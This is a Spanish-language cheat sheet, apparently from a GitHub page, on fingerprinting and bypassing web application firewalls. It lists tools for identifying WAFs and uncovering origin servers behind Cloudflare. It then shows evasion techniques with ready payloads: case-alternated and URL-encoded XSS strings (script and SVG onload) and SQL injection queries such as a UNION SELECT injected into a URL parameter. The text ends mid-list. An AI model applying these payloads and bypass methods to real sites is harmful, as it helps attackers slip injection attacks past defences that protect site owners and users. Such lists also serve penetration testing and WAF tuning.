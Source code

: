 ## **Herramientas para verificar y omitir WAF:**

> w3af : marco de auditoría y ataque de aplicaciones web
> 
> 
> **[wafw00f](https://github.com/EnableSecurity/wafw00f)** — Identificar y tomar huellas dactilares del firewall de aplicaciones web
> 
> **[BypassWAF](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) :** evita los firewalls abusando del historial de DNS. Esta herramienta buscará registros DNS A antiguos y comprobará si el servidor responde para ese dominio.
> 
> **[CloudFail](https://github.com/m0rtem/CloudFail)** : es una herramienta de reconocimiento táctico que intenta encontrar la dirección IP original detrás del WAF de Cloudflare.

## **Técnicas para evitar WAF:**

### **1. Técnica de alternancia de casos**

Combine caracteres en mayúsculas y minúsculas para crear cargas útiles eficientes.

**Solicitud básica:**

> <script>confirm()</script>

**Técnica omitida:**

> <ScrIpT>confirm()</sCRiPt>

**Solicitud básica:**

> SELECT * FROM * WHERE OWNER = 'NAME_OF_DB'

**Técnica omitida:**

> sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

**Ejemplo en URL:**

> http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4

### **2. Técnica de codificación de URL**

> Codifique cargas útiles normales con % de codificación/codificación de URL. Puedes usar Burp Suite. Dispone de una herramienta codificadora/decodificadora.

**Bloqueado por WAF:**

> <Svg/x=">"/OnLoAD=confirm()//

**Técnica omitida:**

> %3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F

**Bloqueado por WAF:**

> UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)
